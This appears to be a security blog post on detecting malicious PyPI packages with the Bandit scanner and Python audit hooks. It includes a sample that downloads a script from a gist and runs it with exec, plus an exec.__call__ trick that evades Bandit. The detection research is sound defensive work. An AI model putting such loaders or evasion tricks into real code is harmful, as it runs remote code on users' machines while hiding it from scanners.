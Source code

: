 ```yaml
---
layout: post
title:  "Using Python Bandit to find dodgy packages"
date:   2020-01-11 12:00:00 +0000
cat:    Threat-Hunting
---
```


# Overview
[Myself](https://www.youtube.com/watch?v=V1_mg5cZsd8) and [plenty](https://medium.com/@bertusk/detecting-cyber-attacks-in-the-python-package-index-pypi-61ab2b585c67) of [others](https://snyk.io/blog/malicious-packages-found-to-be-typo-squatting-in-pypi/) have spoken about the increasing amount of
malicious packages masquarading as legitimate in Python's PyPi package repository. These packages end up as dependecies to legitimate programs, compromising developers and end users.

A common pattern in these packages is to download a 2nd stage script from the web, then passing it into `eval` or `exec` to execute the 2nd stage, for example:
```python

import urllib.request
script = urllib.request.urlopen("https://gist.githubusercontent.com/pathtofile/0e26c9a82c08c4da44f5d2c32db85005/raw").read()
exec(script)   # script == "print('gotem')"
```

# Detection
One way to detect this type of attack to scan packages using [PyCQA's Bandit](https://github.com/PyCQA/bandit). This is a static analysis tool, and can be used to scan projects and files to security issues. One of the issues it can scan for it `B307 - use of exec`. Running it over a file containing the above snipped produces the following output
```bash
$> bandit suspicious.py
[main]  INFO    profile include tests: None
[main]  INFO    profile exclude tests: None
[main]  INFO    cli include tests: None
[main]  INFO    cli exclude tests: None
[main]  INFO    running on Python 3.8.0
[node_visitor]  INFO    Unable to find qualified name for module: suspicious.py
Run started:2020-01-12 09:32:50.575932

Test results:
>> Issue: [B310:blacklist] Audit url open for permitted schemes. Allowing use of file:/ or custom schemes is often unexpected.
   Severity: Medium   Confidence: High
   Location: suspicious.py:2
   More Info: https://bandit.readthedocs.io/en/latest/blacklists/blacklist_calls.html#b310-urllib-urlopen
1       import urllib.request
2       script = urllib.request.urlopen("https://gist.githubusercontent.com/pathtofile/0e26c9a82c08c4da44f5d2c32db85005/raw").read()
3       exec(script)   # prints 'gotem'

--------------------------------------------------
>> Issue: [B102:exec_used] Use of exec detected.
   Severity: Medium   Confidence: High
   Location: suspicious.py:3
   More Info: https://bandit.readthedocs.io/en/latest/plugins/b102_exec_used.html
2       script = urllib.request.urlopen("https://gist.githubusercontent.com/pathtofile/0e26c9a82c08c4da44f5d2c32db85005/raw").read()
3       exec(script)   # prints 'gotem'

--------------------------------------------------

Code scanned:
        Total lines of code: 3
        Total lines skipped (#nosec): 0

Run metrics:
        Total issues (by severity):
                Undefined: 0.0
                Low: 0.0
                Medium: 2.0
                High: 0.0
        Total issues (by confidence):
                Undefined: 0.0
                Low: 0.0
                Medium: 0.0
                High: 2.0
Files skipped (0):
```

We can see it picked up on two things:
1. The use of `urllib.request.urlopen` to get data from the internet
2. The use of `exec`

Both of these things might be legitimate: If you use a tool such as my [Bandit Scan](https://github.com/pathtofile/Bandit-Scan) to scan PyPi,
you'll quickly see that plenty of legitimate packages use for `urlopen` and `exec` all the time.

Bandit does have a very useful `--baseline` option, that enables you compare a package to a "trusted good" version.
This enables developers to scan for any changes to dependecies, and only investigate if this change, drastically reducing the noise.

# Evasion
Bandit does currently suffer from one flaw however. If we instead change our dodgy code to:
```python
sneaky = 'import urllib.request; script = urllib.request.urlopen("https://gist.githubusercontent.com/pathtofile/0e26c9a82c08c4da44f5d2c32db85005/raw").read(); exec(script)'
exec.__call__(sneaky)
```

And run bandit again, we get:
```bash
$>bandit suspicious_sneaky.py
[main]  INFO    profile include tests: None
[main]  INFO    profile exclude tests: None
[main]  INFO    cli include tests: None
[main]  INFO    cli exclude tests: None
[main]  INFO    running on Python 3.8.0
[node_visitor]  INFO    Unable to find qualified name for module: suspicious_sneaky.py
Run started:2020-01-12 09:34:24.153035

Test results:
        No issues identified.

Code scanned:
        Total lines of code: 2
        Total lines skipped (#nosec): 0

Run metrics:
        Total issues (by severity):
                Undefined: 0.0
                Low: 0.0
                Medium: 0.0
                High: 0.0
        Total issues (by confidence):
                Undefined: 0.0
                Low: 0.0
                Medium: 0.0
                High: 0.0
Files skipped (0):
```

Our code is now listed as benign by Bandit.
This is due to Bandit only looking for direct uses of the `exec` function, and not us calling the function's internal
`__call__` function (which effectively does the same thing).

I currently have a [pull request](https://github.com/PyCQA/bandit/pull/552) to fix this, which will also flag any other uses of `__call__`,
as this is not usual to do.

# Python 3.8 Audit Hooks
On top of static analysis, using Python 3.8's audit hooks to analyse code as it runs would also surface the dodgy behaviour.

If you subscribe the python audit hook, such as using my [PyAuditLogger](https://github.com/pathtofile/pyauditlogger),
and run the `suspicious_sneaky.py` file, you will get (amungst other things) these events:
```xml
<EventData>
  <Data>PID: 15744</Data> 
  <Data>Commandline: python.exe suspicious_sneaky.py</Data> 
  <Data>Event: compile</Data> 
  <Data>b'print("gotem")'</Data> 
  <Data>'<string>'</Data> 
</EventData>

<EventData>
  <Data>PID: 15744</Data> 
  <Data>Commandline: python.exe suspicious_sneaky.py</Data> 
  <Data>Event: socket.connect</Data> 
  <Data><socket.socket fd=832, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0></Data> 
  <Data>('151.101.64.133', 443)</Data> 
</EventData>

<EventData>
  <Data>PID: 15744</Data> 
  <Data>Commandline: python.exe suspicious_sneaky.py</Data> 
  <Data>Event: socket.getaddrinfo</Data> 
  <Data>'gist.githubusercontent.com'</Data> 
  <Data>443</Data> 
  <Data>0</Data> 
  <Data>1</Data> 
  <Data>0</Data> 
</EventData>
```

Highlighting in plain-view we connected to `gist.githubusercontent.com`, got some data from it, and eventually ran `print("gotem")`.
The downside to the Audit hooks is again fiding the interesting things in the sheer volume of data.
But only looking at the `compile`, `socket`, and `exec` events could be a good place to start, especially if events going into a SIEM.

# Conclusion
By combining dynamic and static code analysis, we stand a good chance of detecting suspicious beheaviour in Python Packages.
But there is a real and ongoing challenge of finding the dodgy-needle in the haystack that is millions of packages across PyPi.
